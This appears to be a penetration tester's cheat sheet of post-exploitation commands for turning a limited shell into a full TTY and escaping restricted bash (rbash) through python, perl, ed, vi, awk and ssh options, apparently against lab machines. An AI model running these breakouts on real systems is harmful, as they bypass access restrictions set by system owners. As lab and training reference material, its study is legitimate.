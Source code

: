 # Breakout 
------------

## tty linux

```python
python -c 'import pty; pty.spawn("/bin/bash");'
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```bash
export TERM=xterm-256color
```

```bash
/bin/bash -i 

/usr/bin/bash -i
```

```bash
stty raw -echo; fg

stty rows ROWS cols COLS
```

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/root/.local/bin:$PATH
```

```perl
perl -e 'exec "/bin/bash";'
```


------------------------

## rbash escape

```bash
ssh mindy@10.10.10.51 -t "bash --noprofile"
```

error 
```bash
bash: /usr/bin/python: restricted: cannot specify `/' in command names

BASH_CMDS[a]=/bin/sh;
```

ed
```bash
$ ed
!'/bin/bash'
#
```

vi
```bash
$ vi
:set shell=/bin/bash
:shel
```

awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```

https://blog.certcube.com/restricted-shells-escaping-techniques-2/
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
-----------------------

**diffie-hellman-group1-sha1** thingy:
```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 bob@10.11.1.141
```